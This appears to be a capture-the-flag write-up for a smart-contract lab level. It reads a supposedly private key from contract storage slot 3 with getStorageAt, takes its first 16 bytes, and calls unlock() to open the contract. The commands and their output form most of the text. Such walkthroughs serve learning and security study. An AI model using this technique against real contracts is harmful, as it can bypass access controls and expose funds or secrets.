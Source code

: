 Idea is to call unlock() with a _key whose value is equivalent to the first 16 bytes of the data stored in the memory address of data[2]. We can access this memory storage with the right indexation into the contract address. Based on how memory storage works in smart contracts (i.e. data is stored in 32-byte slots in an optimized way), we know that data[2] lives at index 3.

instance: 0xe12a914206c964d0c739807007e8de9220fb44fb

>web3.eth.getStorageAt(instance, 3, (err, data) => {
	rs=data;
})
<undefined
>rs
<"0xa91e3fd31d00343595063aa39d4d931846befa2fe62a824eb18c01c13a9ce7dc"

To get the first 16 bytes of this data:
_key=rs.slice(0,34)

Now we can unlock this contract with _key:
await contract.unlock(_key)

To verify result:
await contract.locked()
false

